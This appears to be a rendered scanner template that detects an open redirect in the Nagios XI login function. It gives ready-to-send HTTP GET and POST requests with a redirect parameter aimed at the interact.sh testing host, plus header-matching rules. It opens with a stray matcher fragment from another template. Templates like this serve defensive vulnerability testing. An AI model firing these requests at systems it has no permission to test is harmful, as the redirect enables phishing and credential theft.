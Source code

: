 **Type - word**

- part - location
- words
  1. //interactsh.com/../

**Type - status**

- status
  1. 301

---

# Nagios XI \<5.8.5 - Open Redirect

## Description

- Nagios XI through 5.8.5 contains an open redirect vulnerability in the login function. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.

- severity - medium
- tags - cve,cve2022,redirect,nagios,nagiosxi

## Requests

### Step - 1

```
GET /nagiosxi/login.php?redirect=/www.interact.sh HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
POST /nagiosxi/login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

nsp={{nsp_token}}&page=auth&debug=&pageopt=login&redirect=%2Fwww.interact.sh&username={{username}}&password={{password}}&loginButton=Login

```

### Matchers

**Type - regex**

- part - header
- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh\/?(\/|[^.]._)?$
